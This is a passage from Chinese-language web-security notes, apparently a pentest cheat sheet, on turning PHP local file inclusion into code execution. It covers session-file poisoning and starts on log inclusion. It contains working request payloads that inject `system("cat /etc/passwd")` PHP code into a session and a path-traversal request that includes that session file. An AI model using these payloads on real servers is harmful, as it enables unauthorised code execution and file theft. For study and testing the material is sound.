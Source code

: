 要包含并利用的话，需要能控制部分sesssion文件的内容。暂时没有通用的办法。有些时候，可以先包含进session文件，观察里面的内容，然后根据里面的字段来发现可控的变量，从而利用变量来写入payload，并之后再次包含从而执行php代码。

比如这篇文章：[透過 LFI 引入 PHP session 檔案觸發 RCE](http://kb.hitcon.org/post/165429468072/透過-lfi-引入-php-session-檔案觸發-rce)





In PHP these sessions are stored into /var/lib/php5/sess\_[PHPSESSID] or /var/lib/php/session/sess_[PHPSESSID] files

```
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```

Set the cookie to `<?php system('cat /etc/passwd');?>`

```
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```

Use the LFI to include the PHP session file

```
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27
```



包含日志还可配合

-  [php .htaccess利用.md](php .htaccess利用.md)  
-  [php反序列化.md](php反序列化.md) （session反序列化）



进行利用





### 包含日志

#### 访问日志

利用条件： 需要知道服务器日志的存储路径，且日志文件可读。

姿势：

很多时候，web服务器会将请求写入到日志文件中，比如说apache。在用户发起请求时，会将请求写入access.log，当发生错误时将错误写入error.log。默认情况下，日志保存路径在 /var/log/apache2/。

但如果是直接发起请求，会导致一些符号被编码使得包含无法正确解析。可以使用burp截包后修改。
[![img](assets/12.png)](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/12.png?raw=true)

